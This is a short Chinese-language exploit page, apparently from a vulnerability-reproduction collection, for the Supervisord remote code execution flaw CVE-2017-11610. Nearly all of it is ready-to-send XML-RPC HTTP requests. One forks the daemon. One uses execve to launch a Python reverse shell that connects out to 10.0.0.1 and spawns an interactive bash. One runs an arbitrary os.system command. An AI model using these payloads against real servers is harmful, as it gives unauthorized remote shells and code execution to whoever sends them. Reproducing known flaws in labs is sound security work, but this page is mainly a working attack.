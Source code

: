 # Supervisord 远程代码执行漏洞（CVE-2017-11610）

参考链接： 

 - https://blogs.securiteam.com/index.php/archives/3348
 - https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b

## 执行命令

为防止supervisord被结束，先fork出一个新进程：

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 133

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.fork</methodName>
<params>
</params>
</methodCall>
```

反弹shell：

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 439

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/local/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",21));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>
```

或者直接执行任意命令：

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

![](01.png)